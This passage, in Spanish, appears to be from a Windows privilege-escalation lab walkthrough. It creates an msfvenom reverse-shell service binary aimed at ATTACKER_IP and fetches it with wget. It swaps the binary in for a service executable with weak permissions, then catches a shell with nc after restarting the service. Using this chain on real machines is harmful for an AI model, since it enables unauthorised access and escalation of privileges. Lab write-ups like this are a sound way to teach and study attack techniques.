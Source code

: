 ``` powershell
j4ckie@jackie-host$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe

j4ckie@jackie-host$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Lo descargamos desde la maquina victima desde una powershell

``` powershell
wget http://ATTACKER_IP:8000/rev-svc.exe -O rev-svc.exe
```

Y entonces movemos el servicio original a otro directorio y lo sustitumos por el payload que hemos creado nosotros con msfvenom

Copy

``` powershell
C:\> cd C:\PROGRA~2\SYSTEM~1\

C:\PROGRA~2\SYSTEM~1> move WService.exe WService.exe.bkp
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> move C:\Users\thm-unpriv\rev-svc.exe WService.exe
        1 file(s) moved.

C:\PROGRA~2\SYSTEM~1> icacls WService.exe /grant Everyone:F
        Successfully processed 1 files.
```

Una vez hecho el anterior proceso, abrimos un listener desde nuestra máquina atacante


``` bash
nc -lvnp 4445
```

Y entones paramos el servicio de windowsscheduler

``` powershell
sc stop windowsscheduler
sc start windowsscheduler
```

Y una vez se reinicie nos dará una shell como el usuario propietario del servicio y habremos escalado de permisos.

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252FVIrD4h9VdLKnUxrUztA3%252Fimagen.png%3Falt%3Dmedia%26token%3D0ca5cf53-d424-4f9a-a2b6-9f3862158da0&width=768&dpr=4&quality=100&sign=cb51dc68638b1099ea4d1b14957419736e56787f09393068b07c57e704c78576)

Paramos el servicio y lo volvemos a iniciar

![](https://j4ckie0x17.gitbook.io/~gitbook/image?url=https%3A%2F%2F1367155054-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252FqCnBDYTntMpZLlwqTWcg%252Fuploads%252F1xrn4TglElnj6ERVvN9R%252Fimagen.png%3Falt%3Dmedia%26token%3Dc844847f-9969-4623-922e-06e184f36c4d&width=768&dpr=4&quality=100&sign=0483cc73755a19e3a2f2985a0d44be34f9422be405f1c27058ad8dfcd1be541e)

Nos da una shell con el usuario svcusr1

### Unquoted Service Paths
